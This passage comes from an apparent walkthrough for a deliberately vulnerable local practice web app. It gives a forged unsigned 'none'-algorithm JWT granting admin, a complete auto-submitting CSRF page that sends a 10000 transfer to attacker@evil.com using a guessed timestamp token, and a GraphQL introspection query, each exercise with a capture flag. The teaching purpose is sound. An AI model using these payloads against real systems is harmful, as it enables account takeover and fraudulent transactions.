 3. **Final token (note trailing dot, no signature):**
   ```
   eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6Ikd1ZXN0IiwiYWRtaW4iOnRydWV9.
   ```
   
4. **Flag:** `{JWT_NONE_ALGORITHM_BYPASS}`
5. **Screenshot Location:** Save admin access evidence

---

### Advanced CSRF Lab

**Lab URL:** `http://localhost:5000/api/vuln/csrf-advanced`

**Objective:** Exploit advanced CSRF vulnerabilities with SameSite bypass.

#### Step 1: Token Bypass
1. **Create malicious HTML page with CSRF payload**
2. **Test SameSite cookie bypass techniques**
3. **Screenshot Location:** Save successful CSRF execution

#### Step 2: SameSite=None Cookie Bypass ⭐
**Bypass Technique:** Exploit SameSite=None cookies in cross-site requests
1. **Analyze cookie:** `Set-Cookie: csrf_session=user_123; SameSite=None`
2. **Create evil.html:**
   ```html
   <form id="csrf" action="http://localhost:5000/api/vuln/csrf-advanced/transfer" method="POST">
     <input type="hidden" name="recipient" value="attacker@evil.com">
     <input type="hidden" name="amount" value="10000">
     <input type="hidden" name="csrf_token" id="token">
   </form>
   <script>
     const timestamp = Math.floor(Date.now() / 1000);
     document.getElementById('token').value = 'csrf_' + timestamp;
     document.getElementById('csrf').submit();
   </script>
   ```
3. **Host on different origin:** `python3 -m http.server 8000`
4. **Flag:** `{CSRF_SAMESITE_BYPASS_SUCCESSFUL}`
5. **Screenshot Location:** Save successful transfer evidence

---

### GraphQL Injection Lab

**Lab URL:** `http://localhost:5000/api/vuln/graphql-injection`

**Objective:** Exploit GraphQL injection and introspection vulnerabilities with bypass techniques.

#### Step 1: Schema Introspection
1. **GraphQL introspection query:**
   ```graphql
   query IntrospectionQuery {
     __schema {
       queryType { name }
       mutationType { name }
       types {
         name
         fields {
           name
           type { name }
         }
       }
     }
   }
   ```